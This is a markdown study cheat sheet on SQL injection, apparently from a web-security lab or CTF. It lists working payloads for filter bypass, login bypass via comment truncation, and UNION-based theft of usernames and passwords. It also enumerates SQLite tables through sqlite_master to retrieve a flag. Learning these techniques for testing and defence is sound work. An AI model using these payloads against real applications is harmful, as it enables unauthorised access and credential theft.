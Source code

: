 ## Retrieving hidden data

```css
https://insecure-website.com/products?category=Gifts

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

```css
https://insecure-website.com/products?category=Gifts'--

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

```css
https://insecure-website.com/products?category=Gifts'+OR+1=1--

https://insecure-website.com/products?category=Gifts' OR 1=1--

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

## Subverting application logic

```css
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## Retrieving data from other database tables

```css
SELECT name, description FROM products WHERE category = 'Gifts'

' UNION SELECT username, password FROM users--
```

## UNION-based injections

```css
' UNION SELECT 1, 'anotheruser', 'any string', 1--

note =>	column1 (1) column2 ('anotheruser') column3 ('any string') column4 (1--)

we have three column => city, address, phone_number 
' UNION SELECT 1, 'test', 'anything'--
' UNION SELECT 1, 2, 3--
' UNION SELECT sqlite_version(), 2, 3--
```

```css
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(tbl_name),3,4,5 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

'union SELECT 1,group_concat(tbl_name),3,4,5 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'


'union SELECT 1,group_concat(tbl_name),3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--

' UNION SELECT 1,group_concat(tbl_name),3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--

-1' UNION SELECT 1, 2, group_concat(tbl_name) FROM sqlite_master WHERE type='table'--


users,offices,hints,more_table

'union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'--

' union SELECT 1,sql,3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='more_table'--

' UNION SELECT 1,flag,3 FROM more_table--

```


> [!Note]  SQL Injection
> to know about SQL injection [click here](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections) 
> for form information about sqlite [click here](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)

